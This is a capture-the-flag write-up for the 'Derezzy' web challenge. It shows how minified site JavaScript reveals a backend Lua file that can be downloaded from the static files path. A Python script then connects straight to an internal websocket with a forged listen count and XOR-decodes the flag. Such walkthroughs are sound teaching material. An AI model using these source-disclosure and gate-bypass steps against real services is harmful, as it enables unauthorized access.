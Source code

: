 ## Solution for: Derezzy

### Concept

A few concepts. One: recovering files we aren't *really* supposed to. Two: analyzing site source to figure out how it works on the backend. Three: taking advantage of loopholes and bypassing the middleman.

### Solve

So we get a dope website that plays Derezzed, objectively the best song from Tron. It just plays....and plays....and plays.

Helpfully, we have a message "FLAG @ 100 HOURS". Obviously though, we don't want to wait that long. We should probably look at the site source. It is minified, but that's not a big deal.

```js
var now_playing=document.querySelector(".now-playing"),track_art=document.querySelector(".track-art"),track_name=document.querySelector(".track-name"),track_artist=document.querySelector(".track-artist"),playpause_btn=document.querySelector(".playpause-track"),next_btn=document.querySelector(".next-track"),prev_btn=document.querySelector(".prev-track"),seek_slider=document.querySelector(".seek_slider"),volume_slider=document.querySelector(".volume_slider"),curr_time=document.querySelector(".current-time"),
total_duration=document.querySelector(".total-duration"),track_index=0,isPlaying=!1,updateTimer,curr_track=document.createElement("audio"),interval=0,bpm=0,track_list=[{name:"Derezzed",artist:"Daft Punk",image:"/static/files/derezzed.jpeg",path:"/static/files/derezzed.mp3"}];function random_bg_color(){document.body.style.background="rgb("+(Math.floor(256*Math.random())+64)+","+(Math.floor(256*Math.random())+64)+","+(Math.floor(256*Math.random())+64)+")"}
function loadTrack(a){clearInterval(updateTimer);resetValues();curr_track.src=track_list[a].path;curr_track.load();track_art.style.backgroundImage="url("+track_list[a].image+")";track_name.textContent=track_list[a].name;track_artist.textContent=track_list[a].artist;now_playing.textContent="DEREZZED: 100 HOUR EDITION. FLAG @ 100HRS";updateTimer=setInterval(seekUpdate,1E3);curr_track.addEventListener("ended",nextTrack);random_bg_color()}
function resetValues(){curr_time.textContent="00:00";total_duration.textContent="00:00";seek_slider.value=0}loadTrack(track_index);function playpauseTrack(){isPlaying?pauseTrack():playTrack()}function updateServer(){$.post("update",{request:"listen",path:"app.lua"},function(a,b){"success"==b?console.log("successful update"):console.log("unsuccessful update")})}
function playTrack(){curr_track.play();isPlaying=!0;playpause_btn.innerHTML='<i class="fa fa-pause-circle fa-5x"></i>';updateServer();interval=setInterval(updateServer,104E3);bpm=setInterval(random_bg_color,500)}function pauseTrack(){curr_track.pause();isPlaying=!1;playpause_btn.innerHTML='<i class="fa fa-play-circle fa-5x"></i>';window.clearInterval(interval);window.clearInterval(bpm)}
function nextTrack(){track_index=track_index<track_list.length-1?track_index+1:0;loadTrack(track_index);playTrack()}function prevTrack(){track_index=0<track_index?track_index-1:track_list.length;loadTrack(track_index);playTrack()}function seekTo(){seekto=seek_slider.value/100*curr_track.duration;curr_track.currentTime=seekto}function setVolume(){curr_track.volume=volume_slider.value/100}
function seekUpdate(){if(!isNaN(curr_track.duration)){var a=100/curr_track.duration*curr_track.currentTime;seek_slider.value=a;a=Math.floor(curr_track.currentTime/60);var b=Math.floor(curr_track.currentTime-60*a),c=Math.floor(curr_track.duration/60),d=Math.floor(curr_track.duration-60*c);10>b&&(b="0"+b);10>d&&(d="0"+d);10>a&&(a="0"+a);10>c&&(c="0"+c);curr_time.textContent=a+":"+b;total_duration.textContent=c+":"+d}};
```

In there of special note we see that we're grabbing the track from "/static/files/derezzed.mp3". We also see a suspicious value in here: path: "app.lua". If we put 2 and 2 together, we'll request "/static/files/app.lua" and get the backend source for the site.

I'm not going to reverse this lua script but of special note we have:
```lua
if listener.count >= 3470 then
    local ws = w.new_from_uri("ws://localhost:8181")
    assert(ws:connect())
    data = {
      user = self.session.id,
      listens = listener.count
    }
    assert(ws:send(cjson.encode(data)))
    data = cjson.decode(assert(ws:receive()))
    assert(ws:close())
end
```

So....hmm. We should maybe try and connect to that and give it a listen count it likes. We can do that with python:

```python

import asyncio
import websockets
import json

async def solve():
    uri = "ws://127.0.0.1:8181"
    async with websockets.connect(uri) as websocket:
        name = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
        data = {"user": name, "count": 3500}
        await websocket.send(json.dumps(data))
        resp = await websocket.recv()
        print(resp)

asyncio.get_event_loop().run_until_complete(solve())
```

Now we'll be a bit surprised to get some garbage back. Luckily for us, it's pretty easy to assume that the output is just our input XORed with the flag. If we dexor everything with our input we get the flag:


```python

import asyncio
import websockets
import json

async def solve():
    uri = "ws://127.0.0.1:8181"
    async with websockets.connect(uri) as websocket:
        name = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
        data = {"user": name, "count": 3500}
        await websocket.send(json.dumps(data))
        resp = await websocket.recv()
        for r in resp:
            print(chr(ord(r) ^ 0x41), end="")

asyncio.get_event_loop().run_until_complete(solve())
```

One more wrinkle is we do need to give an input long enough to xor the whole flag with but this will be reasonably obvious given uh...seeing "flag{" in the output.

:)
